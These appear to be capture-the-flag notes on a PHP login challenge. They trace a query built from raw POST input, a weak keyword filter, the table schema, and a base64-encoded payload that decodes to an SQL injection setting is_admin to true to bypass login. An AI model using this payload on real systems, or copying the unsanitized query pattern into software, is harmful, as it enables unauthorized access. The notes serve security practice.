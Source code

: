 # key #
1. trace code 
	1. <?php if($user->is_admin) printf("<code>%s</code>, %s", htmlentities($flag1), $where_is_flag2); ?>
	2. $user = $query->fetchObject();
	3. $query = $db->query($sql);
	4. $sql = sprintf("SELECT * FROM `user` WHERE `user` = '%s' AND `password` = '%s'", $_POST['name'], $_POST['password']);	
2. function safe_filter($str)
	strstr  'or 1=1' || 'drop' || 'update' || 'delete'
	str_replace("'", "\\'", $str)
3. name=guest&password=guest
4. <!-- debug: -->
5.
// table schema
// user -> id, user, password, is_admin
6. bmFtZT1udWxsJnBhc3N3b3JkPVwnIG9yIGBpc19hZG1pbmA9dHJ1ZTstLQ==
7. RkxBR3tcJyBVTklPTiBTRUxFQ1QgIkkgS25vdyBTUUwgSW5qZWN0aW9uIiAjfQ==
8. flag2 in the database!
